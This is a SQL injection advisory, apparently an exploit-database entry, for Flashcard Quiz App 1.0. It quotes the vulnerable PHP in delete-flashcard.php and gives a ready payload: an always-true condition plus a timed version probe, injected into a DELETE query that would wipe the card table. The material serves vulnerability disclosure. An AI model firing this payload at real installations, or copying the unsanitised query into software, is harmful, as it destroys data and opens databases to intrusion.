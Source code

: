 ```yaml
---
title: Flashcard Quiz App 1.0 SQL Injection
published: true
---
```


- Exploit Title: Flashcard Quiz App - SQL Injection
- Google Dork: N/A
- Application: Flashcard Quiz App
- Date: 25.02.2024
- Bugs: SQL Injection
- Exploit Author: SoSPiro
- Vendor Homepage: https://www.sourcecodester.com/
- Software Link: https://www.sourcecodester.com/php/17160/flashcard-quiz-app-using-php-and-mysql-source-code.html
- Version: 1.0
- Tested on: Windows 10 64 bit Wampserver
- CVE : N/A

***

### Vulnerability Description:

The provided PHP code is vulnerable to SQL injection. SQL injection occurs when user inputs are directly concatenated into SQL queries without proper sanitization, allowing an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database.


### Proof of Concept (PoC):

This vulnerability involves injecting malicious SQL code into the 'card' parameter in the URL.

1. Original Code:

```php
$card = $_GET['card'];

$query = "DELETE FROM tbl_card WHERE tbl_card_id = '$card'";
```

2. Payload:

```planetext
' OR '1'='1'; SELECT IF(VERSION() LIKE '8.0.31%', SLEEP(5), 0); --
```

3. Injected Query:

```sql
DELETE FROM tbl_card WHERE tbl_card_id = '' OR '1'='1'; SELECT IF(VERSION() LIKE '8.0.31%', SLEEP(5), 0); --
```

[Request Response foto](https://i.imgur.com/5IXvpiZ.png)

### Vulnerable code section:

***

```
endpoint/delete-flashcard.php
```
```php
$card = $_GET['card'];

$query = "DELETE FROM tbl_card WHERE tbl_card_id = '$card'";
```